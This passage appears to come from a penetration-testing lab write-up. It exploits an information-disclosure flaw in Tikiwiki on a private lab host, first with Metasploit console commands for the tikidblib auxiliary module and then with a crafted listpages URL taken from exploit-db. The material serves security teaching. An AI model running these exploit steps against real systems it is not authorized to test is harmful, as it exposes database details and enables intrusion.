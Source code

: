 First we will use this exploit through the Metasploit console by issuing the following chain of commands.

```console
use auxiliary/admin/tikiwiki/tikidblib
set RHOST 10.0.2.4
exploit
```

![metasploit_exploit](./images/metasploit_exploit.png)
\ **Figure 8:** Exploiting information disclosure vulnerability on Tikiwiki via Metasploit.

Next, we will use the same exploit once more by following what we've found in [https://www.exploit-db.com/](https://www.exploit-db.com/). To do so we simply navigate to the following url in Firefox `http://10.0.2.4/tikiwiki/tiki-
listpages.php?offset=0&sort_mode=`.
